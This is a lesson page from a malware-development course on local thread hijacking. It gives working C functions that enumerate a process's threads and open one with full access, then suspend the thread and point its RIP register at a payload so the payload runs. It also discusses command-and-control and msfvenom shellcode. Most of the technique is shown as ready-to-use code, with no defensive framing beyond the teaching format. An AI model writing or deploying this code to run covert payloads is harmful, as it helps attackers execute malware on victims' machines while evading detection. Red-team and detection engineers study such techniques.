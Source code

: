 37. Thread Hijacking - Local Thread Enumeration# [**37. Thread Hijacking - Local Thread Enumeration**](https://maldevacademy.com/modules/37)

## **Thread Hijacking - Local Thread Enumeration**

### **Introduction**

So far, when local thread hijacking was performed, the target thread was created using `CreateThread` and its context was modified. This module will demonstrate an alternative method where the system's running threads are enumerated using `CreateToolhelp32Snapshot` and then hijacked.

### **Thread Enumeration**

Recall the use of `CreateToolhelp32Snapshot` from previous modules, where the WinAPI was used to retrieve a snapshot of the system's processes. In this module, the same WinAPI is being used but with a different value being used for the [dwFlags Parameter](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot#parameters). To enumerate the running threads on the system, the `TH32CS_SNAPTHREAD` flag must be specified. Using this flag, `CreateToolhelp32Snapshot` returns a [THREADENTRY32](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-threadentry32) structure that's shown below.


```
typedef struct tagTHREADENTRY32 {
  DWORD dwSize;                       // sizeof(THREADENTRY32)
  DWORD cntUsage;
  DWORD th32ThreadID;                 // Thread ID
  DWORD th32OwnerProcessID;           // The PID of the process that created the thread.
  LONG  tpBasePri;
  LONG  tpDeltaPri;
  DWORD dwFlags;
} THREADENTRY32;

```
Each running thread has its own `THREADENTRY32` structure in the captured snapshot.

### **Identifying The Thread's Owner**

According to Microsoft's documentation:

*To identify the threads that belong to a specific process, compare its process identifier to the*`*th32OwnerProcessID*`*member of the*`*THREADENTRY32*`*structure when enumerating the threads.*

In other words, to determine the process to which the thread belongs, compare the target PID to `THREADENTRY32.th32OwnerProcessID`, which is the PID of the process that created the thread. If the PIDs match, then the thread presently being enumerated belongs to the target process.

### **Required WinAPIs**

The following WinAPIs will be used to perform thread enumeration.

* [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) - Used with the `TH32CS_SNAPTHREAD` flag to receive a snapshot of all the threads running on the system.
* [Thread32First](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first) - Used to get the information about the first thread captured in the snapshot.
* [Thread32Next](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next), Used to get the information about the next thread in the captured snapshot.
* [OpenThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread) - Used to open a handle to the target thread using its thread ID.
* [GetCurrentProcessId](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocessid) - Used to retrieve the local process's PID. Since the local process is the target process, its PID is required to determine whether the threads belong to this process.

### **Worker Threads**

Before diving into the thread enumeration code, it's important to understand the concept of *worker threads*. Although `CreateThread` is not used in the code, the Windows operating system will create worker threads in the process. These worker threads are valid targets for thread hijacking. An example of these worker threads can be seen below.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-0209185998-74b97dca-e541-401d-b700-b45852e7564a.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-0209185998-74b97dca-e541-401d-b700-b45852e7564a.png)The threads that are shown in the image above, such as `ntdll.dll!EtwNotificationRegister+0x2d0`, are created by the operating system to run the `EtwNotificationRegister` function, which is related to the *ETW - Event Tracing for Windows*. ETW will be explained in future modules but for now, it is sufficient to understand that this function is used to notify the operating system when a certain event occurs in the process.

### **Thread Enumeration Function**

`GetLocalThreadHandle` utilizes the previously mentioned steps to perform thread enumeration. It takes 3 arguments:

* `dwMainThreadId` - The thread ID of the main thread of the local process. This is required to avoid targeting the local process's main thread.
* `dwThreadId` - A pointer to a DWORD that receives a hijackable thread's ID.
* `hThread` - A pointer to a HANDLE that receives a handle to the hijackable thread.


```
BOOL GetLocalThreadHandle(IN DWORD dwMainThreadId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {

	// Getting the local process ID
	DWORD           dwProcessId  = GetCurrentProcessId();
	HANDLE          hSnapShot    = NULL;
	THREADENTRY32   Thr          = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		// The 'Thr.th32ThreadID != dwMainThreadId' is to avoid targeting the main thread of our local process
		if (Thr.th32OwnerProcessID == dwProcessId && Thr.th32ThreadID != dwMainThreadId) {

			// Opening a handle to the thread
			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}


```
### **Local Thread Hijacking Function**

Once a valid handle to the target thread has been obtained, it can be passed to the `HijackThread` function. The [SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread) WinAPI will be used to suspend the thread and then `GetThreadContext` and `SetThreadContext` will be used to update the `RIP` register to point to the payload's base address. Additionally, the payload must be written to the local process memory before hijacking the thread.


```

BOOL HijackThread(HANDLE hThread, PVOID pAddress) {

	CONTEXT	ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};

	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}

```
### **Demo**

Note that the payload execution may take some time as the hijacked thread is not the main thread and does not run continuously.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-109188468-94e7741b-8953-4079-8a7c-8ab3cc449779.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-109188468-94e7741b-8953-4079-8a7c-8ab3cc449779.png)Additionally, depending on the payload, the local process may crash after execution. For example, if the payload is for a command and control server, the process will continue running, however, if Msfvenom's calc shellcode was used, the process will crash because Msfvenom's calc shellcode terminates the calling thread.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-209188936-9a4de3fe-fd13-4a25-b343-153a59ea894b.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-209188936-9a4de3fe-fd13-4a25-b343-153a59ea894b.png)


